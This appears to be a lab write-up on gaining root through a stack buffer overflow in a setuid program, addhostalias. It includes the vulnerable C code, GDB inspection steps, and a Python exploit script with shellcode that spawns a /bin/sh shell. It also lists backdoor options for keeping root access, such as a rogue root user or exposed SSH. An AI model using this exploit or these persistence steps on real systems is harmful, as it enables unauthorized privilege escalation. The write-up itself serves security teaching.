



# 1 - Gaining root access

For this first part, we will gain root access through a buffer overflow
vulnerability and a malicious shellcode. With a buffer overflow, a
string can overwrite some memory and become executable. While there
exists countermeasures, they aren't implemented here, hence our attack.

## 1.1 - Memory layout and vulnerability

When we look at the source code of `addhostalias.c`, the vulnerability
opportunity is very clear:

```c
void add_alias(char *ip, char *hostname, char *alias) {
    char formatbuffer[256];
    // ...
    sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
    // fopen
    // ...
}

int main(int argc, char *argv[]) {
    // ...
    add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
    // ...
}
```

We're trying to insert in `formatbuffer` strings without checking their
length. The main function simply reads its arguments and forwards it to
`add_alias`, which will insert it in its buffer. The thing is, what if
our string become too long? If it hits 256 characters or more, we will
exit our buffer and write our string on top of our memory.


## 1.2 - Create the exploit

What we want to do is override the return address to jump back in the
buffer and execute the string as if it was some code.

Using GDB, we can verify that the stack is override. First, we run
`gdb /usr/bin/addhostalias`, then `break fopen` since it is the next
function call after our buffer overflow. Next,
```run `python -c "print '3'*50"` x y```. Finally, we can check the
stack content with `x/50x $sp`.



`3` encoded in ASCII is 0x33 in hexadecimal, hence all these 33.
However, using the memory layout above, we can see that the saved frame
pointer is 0x08048241 and the the return address 0x40007099.



Now, if we input 256 characters, plus 4 characters for the frame
pointer, we should be able to overwrite the return address to return in
the stack and execute our shellcode as if it was "real" code.

We will use a NOP slide to aim wide and then a payload, the shellcode.
This shellcode will set the RID from the EID, effectively putting
ourselves as root. This works only because the sticky bit is enabled
for this file; any program without the sticky bit will (obviously)
not be able to switch to root.

The following script will send the right shellcode for us, used like
this: `addhostalias $(python exploit.py)`

```python
shellcode = ("\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80"
            +"\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0"
            +"\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80"
            +"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68"
            +"\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
            +"\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90"
            +"\x90\x90\x90\x90\x90\x90\x90\x90\x90")

nopSlide = "\x90" * (256 - len(shellcode))
newAddr = "\xe0\xfa\xff\xbf"

print "x", "y", nopSlide + shellcode + newAddr
```

And, with it, we can finally get root access.



## 1.3 - Permanent root access

Althouh this root access is limited in time, we can easily make it
permanent with a backdoor. With root access, you can create a new user
with root access and a known password, expose a SSH access, create a
file with sticky flag, etc.

# 2 - Discussion and countermeasures
